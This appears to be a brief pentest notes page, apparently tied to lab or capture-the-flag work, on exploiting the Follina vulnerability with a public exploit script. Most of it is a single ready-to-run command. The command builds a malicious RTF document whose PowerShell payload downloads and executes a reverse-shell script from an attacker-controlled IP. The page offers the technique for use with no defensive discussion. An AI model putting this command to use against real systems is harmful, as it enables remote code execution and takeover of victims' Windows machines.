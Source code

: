 ```yaml
---
description: >-
  Follina Exploitation
title: Follina Exploitation            # Add title here
date: 2022-11-06 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, Follina Exploitation]                     # Change Templates to Writeup
tags: [exploitation, follina exploitation]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

The following exploit [Follina](https://github.com/chvancooten/follina.py) works pretty well, all you need to do is clone the repository and execute it as follows, the "-c" is the command to execute, it can be a cmd or a powershell intruction:
```bash
python3 follina.py -m command -t rtf -c "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.2/reverse.ps1')"
```
Examples:
[Outdated](https://shuciran.github.io/posts/Outdated/#fnref:follina)